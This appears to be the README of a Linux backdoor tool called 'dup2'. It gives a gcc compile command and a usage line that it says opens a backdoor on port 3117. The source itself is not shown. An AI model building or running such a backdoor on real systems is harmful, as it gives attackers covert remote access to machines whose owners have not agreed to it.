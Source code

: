 #dup2 Backdoor
Backdoor for Linux

###How to compile
`gcc -O2 -o dup2 dup2.c` 

###To use
`./dup2 3117 &` port 3117 will be backdoored

